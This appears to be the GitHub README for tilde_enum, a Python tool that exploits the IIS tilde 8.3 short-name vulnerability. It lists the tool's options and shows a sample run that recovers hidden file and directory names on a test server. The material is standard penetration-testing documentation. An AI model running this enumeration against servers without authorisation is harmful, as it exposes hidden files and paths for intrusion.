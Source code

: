 tilde_enum
==========

Takes a URL and then exploits the IIS tilde 8.3 enumeration vuln (https://soroush.secproject.com/blog/tag/iis-tilde-vulnerability/, http://www.acunetix.com/vulnerabilities/microsoft-iis-tilde-direc/, http://soroush.secproject.com/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf) and tries to get you full file and directory names.

This is an attempt to take the cool POC scanner at https://github.com/irsdl/iis-shortname-scanner/tree/master/ and get you the rest of the file/directory names so you can retrieve them.

Feed this script a URL and also a word list of potential file/dir names. The script will look up the roots in your word list and then try them with appropriate extensions.

For word lists, the [fuzzdb](https://code.google.com/p/fuzzdb/) word lists are pretty good. We sometimes use the https://code.google.com/p/fuzzdb/source/browse/trunk/discovery/PredictableRes/raft-small-words-lowercase.txt (or large or medium) for this work.

This is not a directory enumerator (i.e., tries all words in a list against a web server). It will only find directories that have names longer than 8 characters (since only then will they have 8.3 names and be recognized by the vulnerability). You should still try to enumerate directories using a word list and [DirBuster](https://www.owasp.org/index.php/Category:OWASP_DirBuster_Project) or Burp Intruder or something. 

Just as a note: on Windows computers you can view 8.3 names in the command prompt window by using the `dir /x` command. One of the columns will be the 8.3 name (if there is one).

Always enjoy feedback and suggestions.


Help
====
<pre>$  ./tilde_enum.py -h
usage: tilde_enum.py [-h] [-b] [-d DIRWORDLIST] [-f] [-u URL] [-v] wordlist

Exploits and expands the file names found from the tilde enumeration vuln

positional arguments:
  wordlist        the wordlist file

optional arguments:
  -h, --help      show this help message and exit
  -b              brute force backup extension, extensions
  -d DIRWORDLIST  an optional wordlist for directory name content
  -f              force testing of the server even if the headers do not
                  report it as an IIS system
  -u URL          URL to scan
  -v              verbose output
  -w WAIT         time in seconds to wait between requests
  -p PROXY        Use a proxy host:port
</pre>


Sample Output
======
<pre>
$  ./tilde_enum.py -u http://iis /pentest/fuzzdb/discovery/predictableres/raft-small-words-lowercase.txt -d /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt
[-]  Testing with dummy file request http://iis/mhxWjUz25u.htm
[-]	URLNotThere -> HTTP Code: 404, Response Length: 1635
[-]  Testing with user-submitted http://iis
[-]	URLUser -> HTTP Code: 200, Response Length: 1433
[+]  The server is reporting that it is IIS (Microsoft-IIS/6.0).
[+]  The server is vulnerable to the tilde enumeration vulnerability (IIS/5|6.x)..
[+]  Found a new directory: aspnet
[+]  Found a new directory: copyof
[+]  Found a new directory: docume
[+]  Found a new directory: javasc
[+]  Found file:  parame . xml
[+]  Found file:  765432 . htm
[+]  Found file:  _vti_i . htm
[+]  Found a new directory: _vti_s
[-]  Finished doing the 8.3 enumeration for /.
[-]  Now starting the word guessing using word list calls
[*]  Found one! (Size 1307) http://iis/parameter.xml
[*]  Found one! (Size 1754) http://iis/_vti_inf.html
[-]  Trying to find directory matches now.
[-]  You used the "-d" option.
      Using /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt for directory name look-ups.
[?]  URL: (Size 218) http://iis/aspnet_client/ with Response: HTTP Error 403: Forbidden
[*]  Found one! (Size 1433) http://iis/documentation/
[*]  Found one! (Size 1433) http://iis/javascript/
[-]  Now starting recursive 8.3 enumeration into the directories we found.
[-]  Diving into the http://iis/documentation/ dir.
[+]  Found file:  advert . htm
[+]  Found file:  defaul . asp
[-]  Finished doing the 8.3 enumeration for /documentation/.
[*]  Found one! (Size 227) http://iis/documentation/advertising.html
[*]  Found one! (Size 1433) http://iis/documentation/default.aspx
[-]  Trying to find directory matches now.
[-]  You used the "-d" option.
      Using /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt for directory name look-ups.
[-]  Diving into the http://iis/javascript/ dir.
[+]  Found file:  321 . xls
[-]  Finished doing the 8.3 enumeration for /javascript/.
[-]  File name (321) too short to look up in word list. We will use it to bruteforce.
[*]  Found one! (Size 227) http://iis/javascript/321.xlsx
[-]  Trying to find directory matches now.
[-]  You used the "-d" option.
      Using /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt for directory name look-ups.

---------- FINAL OUTPUT ------------------------------
[*]  We found files for you to look at:
[*]      http://iis/_vti_inf.html  - Size 1754
[*]      http://iis/documentation/advertising.html  - Size 227
[*]      http://iis/documentation/default.aspx  - Size 1433
[*]      http://iis/javascript/321.xlsx  - Size 227
[*]      http://iis/parameter.xml  - Size 1307

[*]  Here are all the 8.3 names we found.
[*]  If any of these are 6 chars and look like they should work,
        try the file name with the first or second instead of all of them.
[*]      http://iis/documentation/advert~1.htm
[*]      http://iis/documentation/defaul~1.asp
[*]      http://iis/765432~1.htm
[*]      http://iis/_vti_i~1.htm
[*]      http://iis/parame~1.xml
[*]      http://iis/javascript/321~1.xls

[*]  We found directories for you to look at:
[*]      http://iis/documentation/  - Size 1433
[*]      http://iis/javascript/  - Size 1433

[*]  Here are all the directory names we found. You may wish to try to guess them yourself too.
[?]      http://iis/_vti_s~1/
[?]      http://iis/aspnet~1/
[?]      http://iis/copyof~1/
[?]      http://iis/docume~1/
[?]      http://iis/javasc~1/

[*]  We found directory URLs you should check out. They were not HTTP response code 200s.
[?]      HTTP Resp 403 - http://iis/aspnet_client/  - Size 218
</pre>
